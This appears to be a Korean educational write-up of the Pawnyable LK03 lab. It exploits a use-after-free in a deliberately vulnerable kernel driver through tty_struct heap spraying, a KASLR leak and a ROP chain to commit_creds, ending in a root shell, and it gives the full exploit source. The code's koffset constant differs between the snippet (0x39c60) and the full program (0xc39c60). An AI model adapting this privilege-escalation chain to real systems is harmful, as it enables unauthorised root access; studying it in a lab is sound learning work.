 ```yaml
---
title: "[Kernel Exploit Tech][Pawnyable] LK03 - UAF"
excerpt: "커널에서 전역변수의 위험성과 이를 통한 UAF를 어떻게 사용하는지 알아보자"

categories:
  - Kernel Exploit Tech
tags:
  - [Kernel, Pwnable, Exploit Tech, UAF]

permalink: /kernel-exploit-tech/lk03-uaf/

toc: true
toc_sticky: true

date: 2025-07-14
last_modified_at: 2025-07-17
---
```

> [pawnyable.cafe](https://pawnyable.cafe/linux-kernel/LK01/stack_overflow.html) 내용을 바탕으로 정리한 글입니다.

# 1. 코드 분석과 취약점 탐지
코드를 살펴보면 전혀 문제될 것이 없어 보인다. 그러나 커널 공간에서 돌아가는 프로그램들은 동일한 리소스를 공유할 수 있고, `g_buf`가 전역변수라는 사실을 고려하면 다음 `module_close()`에서 UAF를 탐지할 수 있다.

```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  return 0;
}
```
여기서 `/dev/holstein`이 하나만 열려 있다면 문제가 없다. 그러나 다음과 같이 2개가 동시에 열려 있는 상황에서 하나만 닫힌다면 큰 문제가 발생한다.
```c
int fd1 = open("/dev/holstein", O_RDWR);
int fd2 = open("/dev/holstein", O_RDWR);
close(fd1);
```

처음 fd1이 열릴 때 `g_buf`에는 kernel heap상의 주소가 할당된다. 그러나 두 번째 fd2가 열릴 때 `g_buf`에 heap 재할당을 시도하므로 fd1의 `g_buf`도 새로 할당된 영역을 가리키게 된다. 이 상황에서 `close(fd1)`을 통해 fd1을 닫으면 fd1으로는 더이상 아무런 작업도 할 수 없지만, `kfree(g_buf)`만 호출하고 `g_buf`를 NULL로 초기화하지 않았기 때문에 fd2에서는 이를 계속 사용할 수 있다.

이를 활용하면

1. `/dev/holstein`을 연달아 2개 엶.
2. 하나를 해제함 (이 시점에서 `g_buf`는 freelist에 들어감)
3. `/dev/ptmx`를 많이 열어 `tty_struct`를 spray함 (이때 `g_buf`도 freelist에 존재하므로 g_buf가 가리키는 영역에 `tty_struct`가 할당됨)
4. 닫히지 않은 `/dev/holstein`을 사용해 `tty_struct`에 접근함

위와 같은 공격 방향을 생각해볼 수 있다.

# 2. exploit 작성

우선 KASLR을 우회하기 위해 base 주소부터 구한다. gdb를 통해 두 번째로 할당된 `g_buf` 주소를 기억한 후 spray 후에 이 주소에 접근하면 저번과 같은 방법으로 offset을 구할 수 있다.

![image.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk03-uaf/spray_result.png)

![image.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk03-uaf/offset_calc.png)

```c
#define koffset 0x39c60
...
    int fd1 = open("/dev/holstein", O_RDWR);
    int fd2 = open("/dev/holstein", O_RDWR);
    close(fd1);

    for (int i = 0; i < 50; i++)
        spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);

    read(fd2, buf, 0x400);
    kbase = *(unsigned long*)&buf[0x18] - koffset;
    g_buf = *(unsigned long*)&buf[0x38] - 0x38;
    printf("kbase = %p\n", kbase);
    printf("g_buf = %p\n", g_buf);
```

다음으로 ROP Chain을 만들어주고, g_buf의 앞쪽 영역에 쓰면 `tty_struct` 자체가 망가져버릴 위험이 있어 뒤쪽 영역에 써 줬다. 여기서는 `g_buf:0x100`에 썼다. (gdb로 읽어봤을 때 아무 값도 없는 영역 뒤쪽이면 아무곳이나 될 것 같다.)

```c
    p = (unsigned long *)&buf[0x100];
    *p++ = 0xdeadbeef;
    *p++ = pop_rdi_ret;
    *p++ = 0;
    *p++ = prepare_kernel_cred;
    *p++ = pop_rcx_ret;
    *p++ = 0;
    *p++ = mov_rdi_rax_rep_movsq_ret;
    *p++ = commit_creds;
    *p++ = swapgs_restore_regs_and_return_to_usermode;
    *p++ = 0xdeadbeef;
    *p++ = 0xcafebebe;
    *p++ = (unsigned long)&win;
    *p++ = user_cs;
    *p++ = user_rflags;
    *p++ = user_rsp;
    *p++ = user_ss;
```

이제 `ioctl()`이 ops의 12번째 주소를 호출한다는 사실을 고려해 다음과 같이 `ops`를 설정해줄 수 있다. 이것도 마찬가지로 뒤쪽 영역에 써 놨다.

```c
    *(unsigned long *)&buf[0x18]  = g_buf + 0x3f8 - 12 * 8;
    *(unsigned long *)&buf[0x3f8] = push_rdx_xor_eax_0x415b004f_pop_rsp_rbp_ret;
```

마지막으로 spray해둔 객체들에 대해 `ioctl()`을 수행하면 쉘을 얻을 수 있다. 전체 exploit 코드는 다음과 같다.

<details>
<summary>펼치기/접기</summary>
{% highlight c %}
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define koffset                                     0xc39c60

#define prepare_kernel_cred                         (kbase + 0x72560)
#define commit_creds                                (kbase + 0x723c0)
#define swapgs_restore_regs_and_return_to_usermode  (kbase + 0x800e26)

#define pop_rdi_ret                                 (kbase + 0x14078a)
#define pop_rcx_ret                                 (kbase + 0xeb7e4)
#define mov_rdi_rax_rep_movsq_ret                   (kbase + 0x638e9b)
#define push_rdx_xor_eax_0x415b004f_pop_rsp_rbp_ret (kbase + 0x14fbea)

unsigned long kbase = -1, g_buf = -1;
unsigned long user_cs, user_ss, user_rsp, user_rflags;

static void win() {
char *argv[] = { "/bin/sh", NULL };
char *envp[] = { NULL };
puts("[+] win!");
execve("/bin/sh", argv, envp);
}

static void save_state() {
asm(
"movq %%cs, %0\n"
"movq %%ss, %1\n"
"movq %%rsp, %2\n"
"pushfq\n"
"popq %3\n"
: "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
:
: "memory");
}

int main() {
save_state();
int spray[100];
char buf[0x500];
unsigned long *p, g_buf;

    // 1. Leak kernel base, g_buf
    int fd1 = open("/dev/holstein", O_RDWR);
    int fd2 = open("/dev/holstein", O_RDWR);
    close(fd1);

    for (int i = 0; i < 50; i++)
        spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);

    read(fd2, buf, 0x400);
    p = buf;
    kbase = p[3] - koffset;
    g_buf = p[7] - 0x38;
    printf("Kernel base: %p\n", kbase);
    printf("g_buf: %p\n", g_buf);

    p = (unsigned long *)&buf[0x100];
    *p++ = 0xdeadbeef;
    *p++ = pop_rdi_ret;
    *p++ = 0;
    *p++ = prepare_kernel_cred;
    *p++ = pop_rcx_ret;
    *p++ = 0;
    *p++ = mov_rdi_rax_rep_movsq_ret;
    *p++ = commit_creds;
    *p++ = swapgs_restore_regs_and_return_to_usermode;
    *p++ = 0xdeadbeef;
    *p++ = 0xcafebebe;
    *p++ = (unsigned long)&win;
    *p++ = user_cs;
    *p++ = user_rflags;
    *p++ = user_rsp;
    *p++ = user_ss;

    *(unsigned long *)&buf[0x18]  = g_buf + 0x3f8 - 12 * 8;
    *(unsigned long *)&buf[0x3f8] = push_rdx_xor_eax_0x415b004f_pop_rsp_rbp_ret;
    write(fd2, buf, 0x400);

    for (int i = 0; i < 50; i++) {
        ioctl(spray[i], 0, g_buf + 0x100);
    }
    
    getchar();
    return 0;
}
{% endhighlight %}
</details>

실행하면 쉘을 얻을 수 있다.
<p align="center">
    <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk03-uaf/win.png">
</p>